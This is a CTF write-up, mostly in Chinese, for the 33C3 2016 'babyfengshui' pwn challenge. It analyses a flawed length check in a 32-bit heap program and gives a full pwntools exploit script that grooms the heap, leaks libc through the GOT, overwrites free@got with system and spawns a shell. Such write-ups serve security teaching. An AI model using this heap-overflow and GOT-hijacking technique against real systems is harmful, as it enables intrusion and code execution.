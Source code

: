 ```yaml
---
title: '[33C3 CTF 2016] babyfengshui 150'
author: bruce30262
tags:
  - pwn
  - heap
  - heap overflow
  - GOT hijacking
  - 33C3 CTF 2016
categories:
  - write-ups
date: 2016-12-31 09:36:00
---
```

## Info  
> Category: pwn
> Point: 150
> Author: bruce30262 @ BambooFox

## Analyzing
32 bit ELF, Partial RELRO, canary & NX enabled, 沒 PIE

程式選單 :
```
$ ./babyfengshui
0: Add a user
1: Delete a user
2: Display a user
3: Update a user description
4: Exit
```
Add a user:
```
Action: 0
size of description: 50 <-- max length of description
name: AAAA 
text length: 12 <-- actual length of description
text: 1234
```
Show a user:
```
Action: 2
index: 0 <-- user's index
name: AAAA
description: 1234
```
Update a user:
```
Action: 3
index: 0
text length: 10 <-- new length of the description
text: 1234567890
```
`user` 的 data structure
```c 
struct user{
    char* desc;
    char name[124];
};
```
程式在 delete user 的時候除了會 free 掉 `user->desc` 和 `user` 本身之外，還會將 `user` pointer 清成 0，因此這題並不存在 Use-After-Free 的漏洞。

程式在設置 `user->desc` 的時候有一個很奇怪的 protection:
```c
// users = struct user *users[]
 if ( &users[id]->desc[text_len] >= &users[id] - 4 )
 {
   puts("my l33t defenses cannot be fooled, cya!");
   exit(1);
 }
 printf("text: ");
 read_n(users[id]->desc, text_len + 1);
```
這段程式碼的意思是，`user->desc` 這個 pointer + `text_len` 必須小於 `user` 這個 pointer。感覺程式是想用這段程式碼來防止 `user` 被 `user->desc` 覆寫 ( 避免 heap overflow )。

可是這段保護真的有用嗎 ?

## Exploit

如果我們有辦法排出下圖的 heap memory layout:
```
            +-----------------------+
userD->desc |                       |
            |                       |
            +-----------------------+
            |            userB->desc| userB
            |                       |
            |                       |
            |                       |
            +-----------------------+
            |            userC->desc| userC
            |                       |
            |                       |
            |                       |
            +-----------------------+
            |            userD->desc| userD
            |                       |
            |                       |
            |                       |
            +-----------------------+
```

根據那段保護的程式碼，`userD->desc + text_len` 必須小於 `userD`。我們可以看到 `userD->desc` 離 `userD` 有一段距離，中間還包含了 `userB` 和 `userC` 這兩個 data structure，說明我們其實可以覆寫掉整個 `userB` 和 `userC`。

這裡只要對 malloc.c 的 memory allocation 機制熟悉的話，要排出上圖的 heap memory layout 並不難。之後只要透過上述的 heap overflow 方式，我們就可以改掉 `userB->desc` 這個 data pointer，進而做到任意讀寫，剩下的就是做 GOT hijacking 拿 shell。

```python exp_baby.py
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "78.46.224.83"
PORT = 1456
ELF_PATH = "./babyfengshui_noalarm"
LIBC_PATH = "./libc-2.19.so"

# setting 
context.arch = 'i386'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
# ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.log_level = 'INFO'

elf = ELF(ELF_PATH)
libc = ELF(LIBC_PATH)

def add_user(desc_len, name, text_len, text):
    r.sendlineafter("Action: ", "0")
    r.sendlineafter("description: ", str(desc_len))
    r.sendlineafter("name: ", name)
    r.sendlineafter("length: ", str(text_len))
    r.sendlineafter("text: ", text)

def del_user(index):
    r.sendlineafter("Action: ", "1")
    r.sendlineafter("index: ", str(index))

def show_user(index):
    r.sendlineafter("Action: ", "2")
    r.sendlineafter("index: ", str(index))

def update_user(index, text_len, text):
    r.sendlineafter("Action: ", "3")
    r.sendlineafter("index: ", str(index))
    r.sendlineafter("length: ", str(text_len))
    r.sendlineafter("text: ", text)

if __name__ == "__main__":

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)
    
    add_user(50, "A"*123, 12, "a"*12)
    add_user(50, "B"*123, 12, "b"*12) 
    add_user(50, "C"*123, 12, "sh\x00") # user[2], desc = "sh\x00" (for later's GOT hijacking)
    del_user(0)
    add_user(90, "D"*123, 12, "d"*12)
    add_user(50, "E"*123, 0x100, "i"*0xf8 + p32(elf.got['__libc_start_main'])) 
    # now user[4]'s desc is user[0]'s desc (in previous)
    # user[4]->desc + 0x2c8 = user[4], which means we can overflow user[4]->desc & overwrite user[1]->desc to libc_start_main@got.plt

    # leak address
    show_user(1)
    r.recvuntil("description: ")
    libc.address += u32(r.recv(4)) - libc.symbols['__libc_start_main']
    system_addr = libc.symbols['system']
    log.success("libc: "+hex(libc.address))
    log.success("system: "+hex(system_addr))
    
    # change user[1]->desc into free@got.plt
    # hijack free's got, then free user[2] to get shell
    update_user(4, 0x100, "i"*0xf8 + p32(elf.got['free']))
    update_user(1, 5, p32(system_addr))
    del_user(2)

    r.interactive()
```

flag: `33C3_h34p_3xp3rts_c4n_gr00m_4nd_f3ng_shu1`

